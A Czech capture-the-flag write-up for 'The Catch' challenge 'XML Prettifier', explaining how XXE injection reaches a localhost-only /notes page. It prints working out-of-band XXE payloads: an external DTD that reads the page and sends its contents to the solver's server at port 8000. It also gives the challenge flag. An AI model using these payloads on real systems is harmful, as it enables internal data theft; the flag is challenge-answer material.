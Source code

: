 # XML Prettifier
Úloha z kategorie *Corporate websites* za 4 body

## Zadání

> Hi, packet inspector,
>
> some former employe of Mysterious Delivery Ltd. has created prettifier for XML code. It is polite to provide information to the AI in nicely formatted XML, isn't it? Rumors say that the employee also left some crucial information somewhere on the web.
>
> Find the crucial information on webpage http://prettifier.mysterious-delivery.tcc:50000 .
>
> May the Packet be with you!

## Nápovědy

> Use VPN to get access to the web.

## Řešení

Jako první je nutné pro vyřešení této úlohy se připojit na The Catch VPN. Bez připojení totiž není možné se připojit k webové stránce.

V této úloze se nachází odkaz na stránku s funkcí formátování `XML` souborů. V navigaci této stránky se nachází endpoint `/notes`, který je dostupný pouze z localhostu. Je tedy nutné provést request ze stejného serveru, kde běží webový server.

Na této stránce lze využít injection útoku, přesněji `XXE Injection`. V XML je možné si totiž definovat novou entitu. Tato entita může být načtena klidně ze souboru či webové stránky. Bohužel výpis obsahu samotné stránky prettifier nedovolí, jelikož obsah stránky není ve formátu XML. Existuje ale alternativní metoda.

V prettifieru lze načíst externí soubor s entitami z jiného běžícího serveru. V tom bude nadefinovaná entita, která se načítá ze stránky `/notes`. Dále se provede request na neexistující webovou stránku, kde `query` bude obsah stránky z předchozí entity. Nakonec dojde k postupnému vykonání těchto entit. Výsledkem je chybová hláška o chybném requestu s přesným obsahem stránky `/notes` i s flagem.

V této úloze je také možné využít přiložený script v Pythonu. Poté je cesta k souboru s entitami `http://[OpenVPN IP]:8000/`

### Obsah do prettifieru
```
<?xml version='1.0' standalone='yes'?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "(cesta k souboru s entitami)"> %xxe; ]>
```

### Obsah souboru s entitami
```
<!ENTITY % file SYSTEM "http://127.0.0.1:50000/notes">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://127.0.0.1:8000/?a=%file;'>">
%eval;
%exfiltrate;
```

## Flag
`FLAG{GG53-5U3w-VT8F-qB31}`

## Užitečné odkazy

- **[XML Entity declaration](https://xmlwriter.net/xml_guide/entity_declaration.shtml)** *(vysvětlení XML entit)*
- **[XXE Injection](https://portswigger.net/web-security/xxe)** *(podrobné vysvětlení zranitelnosti)*
